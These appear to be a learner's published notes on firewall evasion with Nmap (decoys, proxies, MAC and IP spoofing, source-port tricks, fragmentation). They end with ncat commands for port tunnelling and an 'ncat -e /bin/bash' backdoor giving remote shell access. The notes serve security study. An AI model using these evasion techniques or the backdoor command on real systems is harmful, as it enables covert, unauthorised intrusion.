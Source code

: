 ```yaml
---
{"dg-publish":true,"permalink":"/src/site/notes/src/site/notes/src/site/notes/src/site/notes/main/cs/red-teaming/firewalls/"}
---
```







## ==Controlling the MAC/IP/Port for Evasion==

### Decoy(s)

- Using decoys makes your IP address mix with other “decoy” IP addresses. Consequently, it will be difficult for the firewall and target host to know where the port scan is coming from.
- Using the `-D` option, you can add decoy source IP addresses to confuse the target.

### Proxy

- Use an HTTP/SOCKS4 proxy. Relaying the port scan via a proxy helps keep your IP address unknown to the target host.
- This technique allows you to keep your IP address hidden while the target logs the IP address of the proxy server. You can go this route using the Nmap option `--proxies PROXY_URL`.

### Spoofed MAC Address

- Spoof the source MAC address. Nmap allows you to spoof your MAC address using the option `--spoof-mac MAC_ADDRESS`.
- This technique is tricky; spoofing the MAC address works only if your system is on the same network segment as the target host.

### Spoofed IP Address

- Spoof the source IP address. Nmap lets you spoof your IP address using`-S IP_ADDRESS`.
- Spoofing the IP address is useful if your system is on the same subnetwork as the target host; otherwise, you won’t be able to read the replies sent back.

### Fixed Source Port Number

- Use a specific source port number. Scanning from one particular source port number can be helpful if you discover that the firewalls allow incoming packets from particular source port numbers, such as port 53 or 80.
- Without inspecting the packet contents, packets from source TCP port 80 or 443 look like packets from a web server, while packets from UDP port 53 look like responses to DNS queries.
- You can set your port number using `-g` or `--source-port` options.

## ==Packets with Specific Length==

- Fragment IP data into 8 bytes

```Plain
-f
```

- Fragment IP data into 16 bytes

```Plain
-ff
```

- Fragment packets with given MTU

```Plain
--mtu VALUE
```

- Specify packet length

```Plain
--data-length NUM
```

## ==Port Hopping==

- You can use the command `ncat -lvnp PORT_NUMBER` to listen on a certain TCP port.

## ==Port Tunnelling==

- ncat -lvnp 443 -c "ncat TARGET_SERVER 25”

## ==Non-Standard Ports==

- `ncat -lvnp PORT_NUMBER -e /bin/bash` will create a backdoor via the specified port number that lets you interact with the Bash shell.